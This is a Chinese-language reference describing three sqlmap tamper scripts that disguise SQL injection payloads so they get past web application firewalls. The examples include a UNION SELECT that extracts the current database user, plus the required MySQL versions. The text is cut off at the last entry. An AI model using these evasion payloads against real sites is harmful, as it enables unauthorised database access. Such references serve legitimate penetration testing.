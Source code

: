 脚本名：halfversionedmorekeywords.py
--------------------------------

* * *

作用：当数据库为mysql时绕过防火墙，每个关键字之前添加mysql版本评论

```
Example:

("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") "value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"

```

Requirement:

*   MySQL < 5.1

Tested against:

*   MySQL 4.0.18, 5.0.22

脚本名：space2morehash.py
---------------------

* * *

作用：空格替换为 #号 以及更多随机字符串 换行符

```
Example: 

* Input: 1 AND 9227=9227 

* Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227 

```

Requirement: * MySQL >= 5.1.13 Tested

against: * MySQL 5.1.41

案例一:[91ri一篇文章](http://www.91ri.org/5411.html)

脚本名：appendnullbyte.py
---------------------

* * *

作用：在有效负荷结束位置加载零字节字符编码

```
Example: ('1 AND 1=1') '1 AND 1=1%00' 

```

Requirement:
